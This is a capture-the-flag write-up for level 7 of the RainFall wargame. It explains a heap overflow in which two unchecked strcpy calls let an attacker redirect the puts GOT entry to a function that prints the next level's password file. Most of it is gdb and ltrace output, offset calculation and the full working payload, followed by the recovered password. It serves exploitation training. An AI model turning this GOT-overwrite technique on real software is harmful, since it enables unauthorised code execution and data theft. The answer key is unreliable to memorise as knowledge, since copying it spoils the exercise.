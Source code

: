 # **Level7**

## **Analysis**

**In `main()`:**

```c
   // Unprotected 'strcpy'
   strcpy( (char *)str1[1], av[1] );
   strcpy( (char *)str2[1], av[2] );

   // Put the '.pass' into the global 'c'
   fgets( c, 0x44, fopen( "/home/user/level8/.pass", "r" ) ); // 68
   // Call to puts
   puts( "~~" );
```

**In `m()`:**

Just a `printf()` of global `c` 

`m()` adress:
```
(gdb) info function
All defined functions:
...
0x080484f4  m
0x08048521  main
```
___

## **Exploit**

We'll change the first instruction of `puts()` to call `m()`

To do it, we'll use the first `strcpy()` to change the `destination` argmument of the second, which will change the adress of the first instruction in `puts()` to `m()`

Lets first determine the offset needed int the first one to change `destination` on the second
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

level7@RainFall:~$ ltrace ./level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
__libc_start_main(0x8048521, 3, 0xbffff714, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                      = 0x0804a008
malloc(8)                                                                                      = 0x0804a018
malloc(8)                                                                                      = 0x0804a028
malloc(8)                                                                                      = 0x0804a038
strcpy(0x0804a018, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"...)                                      = 0x0804a018
strcpy(0x46464646, "ZZZZ" <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++

 ❯ python3 offset.py 46
20
```

Lets get the adress to modify in `puts()`
```
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

The Solution is:
 * 1st Arg
   * (20) Offset
   * (04) Adress of the first instruction of `puts()`
 * 2nd Arg
   * (04) Adress of `m()`

```
level7@RainFall:~$ ./level7 $(python -c 'print "\x90" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

___

*Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d*